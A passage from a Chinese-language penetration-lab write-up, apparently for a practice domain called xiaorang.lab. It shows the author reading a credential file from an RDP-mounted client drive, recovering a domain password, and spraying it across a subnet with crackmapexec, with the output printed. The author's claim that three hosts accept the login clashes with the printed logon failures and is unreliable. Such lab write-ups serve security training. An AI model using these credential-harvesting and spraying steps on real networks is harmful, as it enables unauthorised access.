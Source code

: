 

```
net use
```

![image-20250309220249284](../assets/image-20250309220249284.png)

看一下挂载情况（不知道为啥我这乱码了）

挂载了c盘

查看c盘中的credential.txt文件

```
C:\Tmp>type \\TSCLIENT\C\credential.txt
type \\TSCLIENT\C\credential.txt
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```

这里有一串账号密码，用这串账号密码进行一个密码喷洒



```
crackmapexec -q smb 172.22.8.0/24 -u Aldrich -p Ald@rLMWuy7Z!#
```

```
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 -q crackmapexec smb 172.22.8.0/24 -u Aldrich -p Ald@rLMWuy7Zproxychains4 crackmapexec smb 172.22.8.0/24
 -u Aldrich -p Ald@rLMWuy7Z
SMB         172.22.8.18     445    WIN-WEB          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-WEB) (domain:WIN-WEB) (signing:False) (SMBv1:True)
SMB         172.22.8.46     445    WIN2016          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN2016) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB         172.22.8.31     445    WIN19-CLIENT     [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN19-CLIENT) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB         172.22.8.46     445    WIN2016          [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z STATUS_LOGON_FAILURE
SMB         172.22.8.15     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
SMB         172.22.8.18     445    WIN-WEB          [-] WIN-WEB\Aldrich:Ald@rLMWuy7Z STATUS_LOGON_FAILURE
SMB         172.22.8.31     445    WIN19-CLIENT     [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z STATUS_LOGON_FAILURE
SMB         172.22.8.15     445    DC01             [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z STATUS_LOGON_FAILURE
```



可以看到这三台机貌似都能登上去

```
SMB         172.22.8.46     445    WIN2016          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN2016) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB         172.22.8.31     445    WIN19-CLIENT     [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN19-CLIENT) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB         172.22.8.15     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
```
